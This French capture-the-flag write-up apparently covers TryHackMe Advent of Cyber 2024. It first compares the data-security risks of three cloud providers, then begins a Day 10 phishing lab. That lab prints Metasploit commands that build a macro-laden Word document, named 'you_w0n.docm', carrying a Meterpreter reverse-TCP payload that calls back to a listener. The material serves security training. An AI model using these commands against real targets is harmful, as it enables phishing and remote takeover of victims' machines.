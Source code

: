 Le fournisseur met en place un système *need-to-know* pour accéder aux données. C'est-à-dire que les personnes n'ont accès qu'aux données qui leur sont utiles. Bien que la méthode soit sécurisée, cela implique néanmoins la possibilité **critique** mais **rare** qu'un utilisateur empêche l'accès à ses données en cas de besoin de contrôle.

Lorsque le contrat est arrivé à son terme, le fournisseur conserve les données "plus d'un mois". L'absence de durée claire peut laisser craindre des fuites de données qui ne seraient plus correctement protégées, ce qui serait **critique** et **très probable**.

**Fournisseur 2**

De la même façon que le **fournisseur 1**, ce nouveau fournisseur ne chiffre pas les données, ce qui représente un risque de vol de données **élevé** et **très probable**.

Les données ne sont accessibles que par les équipes dédiées, et les administrateurs. Un risque de vol de compte ou d'abus de pouvoir pourrait se présenter, ce qui est **critique** et **certain**

Les données sont conservées entre 2 semaines et 1 mois après la fin du contrat. Durant cette période, des données pourraient être volées, ce qui aurait un impact **critique** et un risque **certain**.

**Fournisseur 3**

Le dernier fournisseur nous propose un chiffrement AES-256 sur les transits et le stockage. Cela peut engendrer une surconsommation des ressources ou une éventuelle perte de clé. Bien que l'impact serait **élevé**, ce risque reste **rare**

Seule l'équipe dédiée a accès aux ressources. Il reste un risque résiduel de compromission de compte dans l'équipe, il s'agit d'un risque **critique** de l'ordre du **possible**.

Comme le premier fournisseur, celui-ci conserve les données plus d'un mois. Le risque **critique** de vol de données devient **très probable**.

**Conclusion**

Entre les 3 fournisseurs, seul le dernier propose le chiffrement des données, et réduit ainsi son score de risque devenant ainsi le meilleur candidat

## Jour 10 : Il a un cerveau rempli de macro, et il a des shells dans son âme

![Phishing](https://img.shields.io/badge/Phishing-4d354a?logo=tryhackme)

![Jour 10](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/5f04259cf9bf5b57aed2c476-1731376026704.svg)

Le dixième défi du Calendrier de l'Avent 2024 nous apprend la création d'un fichier `.docm` (document Word avec macro) dans une simulation de phishing.

La *payload* comportera un `meterpreter` pour Windows et sera créé via le *framework* `msfconsole`.

```txt
msf6 > setg payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

use exploit/multi/fileformat/office_word_macro
[*] Using configured payload windows/meterpreter/reverse_tcp

msf6 exploit(multi/fileformat/office_word_macro) > setg lhost 10.10.189.230
lhost => 10.10.189.230

msf6 exploit(multi/fileformat/office_word_macro) > setg lport 9000
lport => 9000

set filename you_w0n.docm
filename => you_w0n.docm

msf6 exploit(multi/fileformat/office_word_macro) > show options
```
